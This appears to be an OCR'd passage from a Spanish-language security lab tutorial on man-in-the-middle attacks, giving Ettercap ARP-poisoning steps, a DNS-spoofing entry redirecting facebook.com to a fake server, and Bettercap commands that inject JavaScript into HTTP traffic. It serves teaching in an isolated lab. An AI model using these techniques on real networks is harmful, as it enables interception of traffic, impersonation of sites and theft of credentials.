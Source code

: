 * **Red interna**: adaptador Host-Only con IPs 192.168.56.0/24.
* **Máquina víctima**: Windows 10 o Ubuntu Desktop.
* **Máquina atacante**: Kali Linux con `ettercap`, `bettercap`, `mitmproxy`.

---

## 11.4. ARP Spoofing con Ettercap

### Instalación:

```bash
sudo apt install ettercap-graphical
```

### Ejecución:

```bash
sudo ettercap -G
```

1. Seleccionar interfaz de red.
2. Escanear hosts.
3. Añadir víctima 1 (IP del objetivo).
4. Añadir víctima 2 (IP del gateway).
5. Iniciar en modo ARP poisoning.

💡 Esto redirige el tráfico de la víctima hacia ti.

---

## 11.5. DNS Spoofing

En Ettercap, editar `/etc/ettercap/etter.dns`:

```plaintext
facebook.com     A    192.168.56.10
```

Esto hará que cualquier intento de abrir `facebook.com` vaya a tu servidor falso.

---

## 11.6. Manipulación de HTTP

Con `Bettercap`:

```bash
sudo bettercap -iface eth0
set http.proxy.script inject.js
set http.proxy.injectjs true
http.proxy on
```

Ejemplo de `inject.js`:

```javascript
document.body.innerHTML += "<h1>Interceptado por el laboratorio</h1>";
```

---
